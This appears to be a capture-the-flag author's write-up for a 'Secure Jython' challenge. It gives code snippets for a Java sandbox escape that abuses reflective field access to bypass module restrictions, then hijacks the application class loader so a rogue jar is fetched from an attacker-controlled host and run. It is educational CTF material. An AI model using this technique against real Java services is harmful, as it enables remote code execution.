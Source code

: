 # Secure Jython Solution

Refer to `exp.py` for complete exploit

So this was a refit of a challenge written last year with no solves. This
utilizes a similar technique to the other challenge, but looks entirely
different... at least at first glance.

Here we have a simplified implementation of a python interpreter (with much of
its AST trimmed down), so that the only thing we could do is set/get fields.
There was also a special reference/dereference syntax that I added mainly to be
hacked.

The first weird thing about this jython interpreter is the thin separation
between the jython objects its Java counterpart. In fact, it directly reads the
fields of those Java objects (even private ones!) Furthermore, it calls
`setAccessible` to bypass Java's access validator (so that we can write/read to
private fields, and even final fields!).

## Background
Before I came to create this challenge, I've actually tried placing this
novel technique that I found in multiple iterations of challenges.

### JHeap
The earliest iteration of such technique, I actually thought of it as a
second-stage to the ancient JHeap challenge in a way to get full code execution
(a recap of the challenge: the challenge had a heap overflow vulnerability that
caused you to be able to read/write arbitrary data on the Java heap, and this
was due to a quirk of UTF-8 encoding).

When I was searching for an exploit path to JHeap, I noticed that there weren't
any way to really execute arbitrary methods/constructors/etc... because all
the code and method tables were placed in unaddressable memory (because the Java
heap compresses all pointers to 32-bit). So I came up instead with a way to
chain various arbitrary writes into the Java heap to trick the JVM into loading
a custom class of our choosing. Once we do that, we can do a custom static
initializer to run our devious code.

### JSandbox
Since JHeap was hard to begin with, I broke out the technique used into a
separate challenge called JSandbox. Unfortunately due to the late release, the
challenge was largely overlooked, and there were little discussion made, so as
any "*good*" challenge author, I reused the challenge, and incorporated into
this challenge called *Secure Jython*. This utilized essentially the same
technique of exploitation except using latest and greatest Java version!

## Exploit Path
I will now break down the exploit into several sections.

### FieldRef gadget
This jython version implements an interesting "FieldRef" feature that allows us
to read/write to "field pointers". So we first construct a field reference:
```python
fld = &'pwn'.value
FieldRef = fld.__class__
```

We can then modify `fld.self` and `fld.member` to read/write from _almost_ any
arbitrary fields as if they were ordinary objects, even those that have special
`__getattr__` functions.

### Escaping Jigsaw Prison
Unfortunately, a new functionality implemented in project Jigsaw (to what seems
like decades of eternities before) in java 9 enforced this idea of modularity,
such that you cannot access internals of internal classes no matter what you do
to cajole it to.

In the `jython` shell script, there's this perculiar flag:
`--add-opens=java.base/java.lang=ALL-UNNAMED` which essentially allows anyone to
read/write arbitrary fields to all classes in the `java.lang` package.

We can use this to bypass the entire Jigsaw prison:
```python
Class = java.lang.Class
f_module = Class.module
fld.self = Class
fld.member = f_module
m_java_base = *fld

fld.self = FieldRef
fld.member = f_module
*fld = m_java_base
```

This will then put the FieldRef class as if it were in the `java.base` module,
allowing us access to internal module fields!

### Backdooring our Builtin classloaders
Here we obtain all the class loaders from the ClassLoaders class:
```python
ClassLoaders = jdk.internal.loader.ClassLoaders
BuiltinClassLoader = jdk.internal.loader.BuiltinClassLoader

fld.self = None
fld.member = ClassLoaders.BOOT_LOADER
BOOT = *fld
fld.member = ClassLoaders.PLATFORM_LOADER
PLAT = *fld
fld.member = ClassLoaders.APP_LOADER
APP = *fld
```

Then in order to add another source to load classes, I obtain the ucp object of
the application class loader:
```python
f_ucp = BuiltinClassLoader.ucp
fld.self = APP
fld.member = f_ucp
ucp = *fld
```

And then add an URL that we own to load our rogue Jar file:
```python
fld.self = None
fld.member = javax.crypto.JceSecurity.NULL_URL
url = *fld

# Set unopenedUrls to our url
ucp.unopenedUrls.head = 0
ucp.unopenedUrls.tail = 1
ucp.unopenedUrls.elements[0] = url

# Canabolize the existing url to point to our server
url.host = HOST
url.authority = AUTHORITY
url.port = PORT
url.file = PATH
url.path = PATH
```

Finally, trigger the actual class loading by loading our rogue class
```python
# Fire away!
import exp.shell
```

<a rel="license" href="http://creativecommons.org/licenses/by/4.0/"><img alt="Creative Commons License" style="border-width:0" src="https://i.creativecommons.org/l/by/4.0/88x31.png" /></a><br />This work is licensed under a <a rel="license" href="http://creativecommons.org/licenses/by/4.0/">Creative Commons Attribution 4.0 International License</a>.
